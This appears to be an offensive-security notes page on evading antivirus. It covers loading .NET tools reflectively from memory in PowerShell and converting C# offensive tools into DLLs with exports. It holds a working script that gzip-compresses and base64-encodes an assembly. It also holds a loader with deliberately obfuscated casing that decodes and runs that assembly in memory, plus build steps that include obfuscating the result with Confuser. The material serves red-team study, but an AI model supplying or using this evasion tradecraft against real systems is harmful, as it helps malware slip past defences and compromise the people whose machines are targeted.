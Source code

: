 # .NET Reflective Assembly

- [https://pscustomobject.github.io/powershell/howto/PowerShell-Add-Assembly/](https://pscustomobject.github.io/powershell/howto/PowerShell-Add-Assembly/)
- [https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack)
- [https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell](https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell)
- [https://github.com/cfalta/PowerShellArmoury/blob/master/ConvertTo-Powershell.ps1](https://github.com/cfalta/PowerShellArmoury/blob/master/ConvertTo-Powershell.ps1)
- [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/convert_c%23_to_ps1.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/convert_c%23_to_ps1.ps1)
- [https://icyguider.github.io/2022/01/03/Convert-CSharp-Tools-To-PowerShell.html](https://icyguider.github.io/2022/01/03/Convert-CSharp-Tools-To-PowerShell.html)
- [https://cyberstoph.org/posts/2020/09/convertto-powershell-wrapping-applications-with-ps/](https://cyberstoph.org/posts/2020/09/convertto-powershell-wrapping-applications-with-ps/)

A way to bypass AV signature analysis: you can gzip-compress and base64-encode a .NET assembly to load it reflectively via PowerShell right from memory (when compiling the binary, make `Program` class and its `Main` method **public**):

{% code title="CompressEncodeAssembly.ps1" %}
```powershell
$bytes = [System.IO.File]::ReadAllBytes("$(pwd)\binary.exe")
[System.IO.MemoryStream] $outStream = New-Object System.IO.MemoryStream
$gzipStream = New-Object System.IO.Compression.GzipStream($outStream, [System.IO.Compression.CompressionMode]::Compress)
$gzipStream.Write($bytes, 0, $bytes.Length)
$gzipStream.Close()
$outStream.Close()
[byte[]] $outBytes = $outStream.ToArray()
$b64Zipped = [System.Convert]::ToBase64String($outBytes)
$b64Zipped | Out-File -NoNewLine -Encoding ASCII .\b64.txt
```
{% endcode %}

This [blog post](https://www.praetorian.com/blog/running-a-net-assembly-in-memory-with-meterpreter) covers the topic in depth.

An example how the binary can be actually decoded, decompressed and run from memory:

```powershell
function Invoke-S0m3B1n4ry
{
	[CmdletBinding()]
	Param([String]$cOmmANd = " ")

	$a = NeW-obJeCt sYsTeM.Io.MEMoRysTREaM(,[coNveRT]::frombaSE64sTrINg("..."))
	$DEcoMpRESSEd = nEw-obJEct SYsteM.io.CompREsSION.gzIPsTreaM($a, [sYstEM.iO.COMPrEssION.CompRESsIonMODE]::decOmPRESs)
	$OUtpuT = New-oBjeCt SySTeM.IO.MEmorYstREam
	$dEcoMPReSSEd.copYto( $outPUt )
	[BYte[]]$ByTEOuTarrAy = $OUtPUT.toarrAY()
	$RAs = [sySTeM.REfLecTIOn.ASSEmBlY]::load($bYTeOUTArraY)
	$olDconsOLeOuT = [CONSoLe]::out
	$StRInGwritEr = nEW-ObJEct System.IO.STRiNgwRiTEr
	[cONSOLE]::sEtOut($STringWRITer)

	[S0m3B1n4ry.Program]::maiN($CoMmAND.Split())
	# or [S0m3B1n4ry.Program]::maiN([string[]]$args)

	[cOnsolE]::sEtout($olDCONsOleout)
	$resUlTs = $sTRInGWRiter.TOSTring()
	$rESuLTs
}
```




## C\# to Unmanaged DLL
* [https://blog.xpnsec.com/rundll32-your-dotnet/](https://blog.xpnsec.com/rundll32-your-dotnet/)

Creating assembly with DLL exports from C# code:

1. Select your favorite C# offensive tool.
2. Install [DllExport](https://www.nuget.org/packages/DllExport/) package via "Manage NuGet Packages for Solution" in VS.
3. Configure DllExport like on the screenshot below and click "Apply".
4. Agree to reload the solution.
5. Edit the Main function code to work with no arguments passed so that the signature looks like `static void Main()`.
6. Add `[DllExport]` attribute before the Main function.
7. Check "Allow unsafe code" and "Optimize code" boxes in Build tab of the solution.
8. Build the solution as Release x64 DLL assembly.
9. (Optional) Obfuscate the assembly with something like [Confuser](https://github.com/XenocodeRCE/neo-ConfuserEx).

![DllExport Configuration](/.gitbook/assets/010.png)

The resulting DLL will be placed in `.\bin\x64\Release\x64\` directory.

{% hint style="warning" %}
Author's note: *I’m not sure why it requires so much finessing, but I’m open to any optimizations or explanations if anyone knows. Specifically, only the DLL in the `\x64\` directory will work, for some reason the one that’s under `\Release\` does not contain the entrypoint that should be generated by `[DllExport]`, even though it’s built at the same time as the one in `\x64\`.*
{% endhint %}
